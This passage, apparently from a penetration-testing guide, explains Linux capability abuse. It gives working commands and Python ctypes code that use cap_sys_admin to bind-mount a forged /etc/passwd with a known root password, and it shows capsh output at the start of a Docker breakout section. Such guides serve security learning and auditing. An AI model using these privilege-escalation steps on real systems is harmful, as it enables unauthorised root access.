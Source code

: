 **Example with binary**

```bash
getcap -r / 2>/dev/null
/usr/bin/python2.7 = cap_sys_admin+ep
```

Using python you can mount a modified _passwd_ file on top of the real _passwd_ file:

```bash
cp /etc/passwd ./ #Create a copy of the passwd file
openssl passwd -1 -salt abc password #Get hash of "password"
vim ./passwd #Change roots passwords of the fake passwd file
```

And finally **mount** the modified `passwd` file on `/etc/passwd`:

```python
from ctypes import *
libc = CDLL("libc.so.6")
libc.mount.argtypes = (c_char_p, c_char_p, c_char_p, c_ulong, c_char_p)
MS_BIND = 4096
source = b"/path/to/fake/passwd"
target = b"/etc/passwd"
filesystemtype = b"none"
options = b"rw"
mountflags = MS_BIND
libc.mount(source, target, filesystemtype, mountflags, options)
```

And you will be able to **`su` as root** using password "password".

**Example with environment (Docker breakout)**

You can check the enabled capabilities inside the docker container using:

```
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
 secure-noroot: no (unlocked)
 secure-no-suid-fixup: no (unlocked)
 secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
